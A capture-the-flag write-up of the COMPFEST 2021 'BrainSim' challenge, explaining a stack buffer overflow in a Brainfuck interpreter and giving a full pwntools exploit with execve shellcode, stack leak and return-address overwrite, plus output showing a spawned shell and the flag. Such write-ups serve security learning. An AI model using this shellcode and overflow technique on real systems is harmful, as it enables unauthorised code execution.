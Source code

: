 ## BrainSim

> Points: 500
>
> Solves: 1

### Description:
Heyy! So, I found this BF simulator thing. I thought it's hackable-ish? Because my friend told me there's flag file in it. Maybe you could help me while I'm having my breakfast ? Ehehe...

nc 103.152.242.242 29461

Author: xMaximusKl

Hint: Simple BOF using brainfuck, I wonder what you could with that ? Maybe hanging around in a forbidden place ? :)

### Attachments:
```
brainsim-master-public.zip
```

I was able to start the shell in my local environment but couldn't get the flag from the server during the competition time.
After the competition, I managed to start the shell, and when I checked the binary of the server, the binary of the server and the binary of attachment were different.

```
$ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim　　　<--- The size is different.
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
```

When I checked with the administrator on Discord, it seems that the administrator forgot to update the attachment.

I got the binaries from the server and checked the difference between the two binaries.
The following parts of the `Interpret` function are different. There is one more `getchar()` in the attachment binary.

```
          case 0x2c:
            iVar2 = getchar();
            mem[mp] = (char)iVar2;
            getchar();                  <----- this part
            ip = ip + 1;
            break;
```

Attach the binary `BrainSim_server` I got from the server.


## Analysis:

This is a challenge with Brainfuck.
Since NX is disabled, launch the shellcode on the stack BoF.

```
$ checksec BrainSim
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Brainfuck uses the following variables.
```
ip:     Instruction pointer
ip_end: End position of instruction pointer
mp:     Memory pointer
brack:  Flag to check the number before and after the bracket
```

Since the range of the value of `mp` is not checked when executing the Brainfuck code, I can read the value on the stack and write arbitrary data by specifying the following character string.
```
.,[>.,]
```

## Solution:

First I used `., [>.,]` To leak the stack address (mp = 0 address).

```
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000
0x7fffffffddd0:	0x00007fffffffdee0	0x00007fffffffd5d0　<--- Leak this 0x7fffffffd5d0.
0x7fffffffdde0:	0x00007fffffffde00	0x00005555555556ed
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

Then I used `, [>,]` to write the shellcode and then change the return address of the `Interpret` function to the leaked stack address.

```
0x7fffffffd5d0:	0x622fb84852d23148	0x485068732f2f6e69  <--- shellcode
0x7fffffffd5e0:	0x48e689485752e789	0x414141050f3b428d
0x7fffffffd5f0:	0x4141414141414141	0x4141414141414141
...
0x7fffffffddb0:	0x4141414141414141	0x4141414141414141
0x7fffffffddc0:	0x4141414141414141	0x4141414141414141
0x7fffffffddd0:	0x4242424242424242	0x4242424242424242
0x7fffffffdde0:	0x4242424242424242	0x00007fffffffd5d0　<--- Change from 0x5555555556ed to 0x7fffffffd5d0
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

I can start the shellcode by returning from the `Interpret` function to the `main` function with the `Exit` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BrainSim'
elf  = ELF(BINARY)

shellcode = '\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 29461
  s = remote(HOST, PORT)
  REMOTE = True
else:
  s = process(BINARY)
  libc = elf.libc
  REMOTE = False

def Interpret_code(code):
  s.sendlineafter("Input : ", "1")
  s.sendlineafter("Code : ", code)

def Make_string(s0):
  s1 = ""
  for i in range(len(s0)):
    s1 += s0[i] + s0[i]
  return s1

if REMOTE:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("A"*0x810+"\x00"*2)

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = shellcode
  buf += "A"*(0x800 - len(buf))
  buf += "B"*0x18
  buf += p64(stack_leak)
  s.sendline(buf)

else:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("AA"*0x810+"\x00")

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = Make_string(shellcode)
  buf += "AA"*(0x800 - len(buf)/2)
  buf += "BB"*0x18
  buf += Make_string(p64(stack_leak)[:-1]) + "\n"
  s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public/BrainSim'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 103.152.242.242 on port 29461: Done
stack_leak = 0x7ffd02a75070
[*] Switching to interactive mode

Output: $ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 bin
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 dev
-r--r--r-- 1 0 0    56 Sep 12 04:47 flag.txt
lrwxrwxrwx 1 0 0     7 Sep 12 04:40 lib -> usr/lib
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib32 -> usr/lib32
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib64 -> usr/lib64
lrwxrwxrwx 1 0 0    10 Sep 12 04:40 libx32 -> usr/libx32
-rwxr-xr-x 1 0 0   338 Sep 12 04:47 run.sh
drwxr-xr-x 6 0 0  4096 Sep 12 04:40 usr
$ cat flag.txt
COMPFEST13{570PPPP_I7___937_0U7_0f_my_H34d___b6fc1236d6}
```

The administrator sent me the Exploit code, so I'll attach `exploit.py`.
Thank you for your polite response even after the competition.

## Reference:
https://en.wikipedia.org/wiki/Brainfuck

https://www.notion.so/RCTF-2020-acfcdd0de8534ed0a7caef3549088281
